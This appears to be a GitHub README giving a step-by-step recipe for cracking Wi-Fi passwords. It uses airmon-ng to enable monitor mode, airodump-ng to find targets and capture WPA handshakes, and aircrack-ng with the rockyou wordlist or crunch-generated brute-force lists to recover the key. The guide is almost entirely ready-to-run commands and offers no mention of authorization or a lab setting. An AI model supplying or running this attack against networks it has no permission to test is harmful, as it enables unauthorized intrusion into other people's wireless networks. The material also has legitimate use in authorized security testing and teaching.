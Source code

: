 # Wireless-Hacking
1. Unzip the `rockyou.txt` worldlist:
```
$ cd /usr/share/wordlists
$ sudo gunzip rockyou.txt
```
2. Iddentify the network adapter, and set it up in monitor mode: 
```
$ ifconfig
$ sudo airmon-ng start <your-network-adpater>
```
3. Send packages to all near wireless connections and identify your network target:
```
$ sudo airodump-ng <your-network-adapter-monitor-mode>
```
4. Listen for handshake and exit when caught:
```
$ sudo airodump-ng --bssid <bssid> -c <channel> --write <output-file> <your-network-adapter-monitor-mode>
```
5. Crack hashed handshake:
* Dictionary attack:
```
$ sudo aircrack-ng <your-handshake-cap-file> -w <route-worldlist>
```
* Generate your dictionary:
```
$ sudo crunch <from-size-char> <to-size-char> "<char-to-use>" -t <patern-of-string> -o <output-file-txt>
```
* Brute force attack:
```
$ sudo crunch <from-size-char> <to-size-char> "<char-to-use>" -t <patern-of-string> | sudo aircrack-ng -w - -b <bssid-of-handshake> <your-handshake-cap-file>
```
6. Exit from monitor mode on network adapter:
```
$ sudo airmon-ng stop <your-network-adapter-monior-mode>
```
